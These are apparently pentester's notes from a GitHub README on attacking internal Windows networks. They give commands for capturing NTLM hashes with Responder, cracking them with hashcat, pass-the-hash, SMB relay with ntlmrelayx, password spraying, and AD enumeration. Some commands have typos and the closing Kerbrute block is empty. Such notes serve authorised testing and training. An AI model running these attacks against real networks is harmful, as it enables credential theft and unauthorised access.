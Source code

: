 # Internal Network Pentesting
Notes for Internal Network Pentesting 


###  Nmap

```bash
nmap -sn 192.168.1.1/24
```
```bash
nmap -sV -sC -A -p- IP-Address
```

###  Responder

```bash
responder -I <interface> -rdw
```
#### After capturing NTLM Hash (copy the captured hash into .txt format) copy full hash from username to end of the hash.

```bash
hashcat -m 5600 hash.txt /path/to/wordlist.txt
```
#### Pass The Hash
```bash
hcrackmapexec smb IP-address/CIRD -U FirstName.LastName -H Hash-File --local
```

### SMB Relay attack
#### Make sure you turn off the SMB and HTTP from responder configuration

```bash
nano /etc/responder/Responder.conf
```
- For this attack you need to have ntml hash, use can use responder for capture hash.
- Scanning for Signing disabled machines, make sure you save the host example : TargetHost.txt
```bash
nmap --script=smb2-security-mode.nse -p 445 192.168.1.1/24,134 -Pn --open | tee -a target.txt
```

#### Use ntlmrelayx
```bash
python3 ntmlrelayx.py -tf /path/to/target_host_nmap_above -smb3supprt
```

### CrackMapExec 

```bash
crackmapexec smb "10.0.9.0/24" -u "FirstName.LastName" -p /path/to/password.txt
```

### Active Directory
#### Nmap. 
```bash
nmap -Pn -sV -sC -oN top IP-Address
```
- Look for ports such as :
```bash
53 → DNS
139,135,445 → RPC or SMB
3389 → RDP or domain controller
88 → kerberos
389 → Ldap
636 → ldaps
445 → SMB
```
#### enum4linux
```bash
enum4linux -A IP-Address
```
 #### Abusing Kerberos.
 - Kerbrute can be used to perform discovery of user,passwords and even password spray. It's just a bruteforce tool so you need have a list of username and password. Recommendation : Try building custom username (of an organization) and password.
```bash

```



